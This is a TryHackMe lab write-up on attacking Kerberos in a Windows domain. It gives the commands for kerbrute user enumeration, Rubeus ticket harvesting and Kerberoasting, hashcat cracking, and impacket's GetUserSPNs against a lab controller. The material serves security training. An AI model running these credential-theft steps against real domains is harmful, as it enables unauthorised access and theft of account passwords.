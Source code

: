 # [Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)
Learn how to abuse the Kerberos Ticket Granting Service inside of a Windows Domain Controller

6/25/2022

- First, we will use [kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate the users on the domain
- `./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt`
- Wordlist: https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt

![image](https://user-images.githubusercontent.com/66894542/175787532-814cf50f-6c1d-4cfa-9f23-09de67c8bb50.png)

## [Rubeus](https://github.com/GhostPack/Rubeus)
- To harvest tickets that we can use later for a pass the ticket attack, we can use the following command:
- `Rubeus.exe harvest /interval:30`

- We get both domain controller and admin tickets:

![image](https://user-images.githubusercontent.com/66894542/175787837-84266d08-5f15-443b-a694-5152a202997f.png)
![image](https://user-images.githubusercontent.com/66894542/175787958-f8005af5-ae6c-4acd-9b39-9cf7d0677845.png)


- We can also use a password spray attack that uses one password to spray across many different users:

![image](https://user-images.githubusercontent.com/66894542/175787911-624d9541-420e-4038-a8b8-a10d82d9728e.png)


## Kerberoasting
- "request a service ticket for any service with a registered SPN then use that ticket to crack the service password"
- "depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account."

- `Rubeus.exe kerberoast`

![image](https://user-images.githubusercontent.com/66894542/175788374-f93b2e68-3fa5-405f-baff-1add0204d72e.png)

- Unfortunately the output has a lot of spaces so I used `sed 's/[[:space:]]//g' hash.txt` and deleted the new lines manually to get it to be one line of text (home and backspace)
- `hashcat -m 13100 -a 0 hash.txt Pass.txt`

![image](https://user-images.githubusercontent.com/66894542/175789281-fbce4710-932f-4152-ae01-ca25ca1b3a03.png)


- We can also do this remotely with impacket:
- `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.226.161 -request`
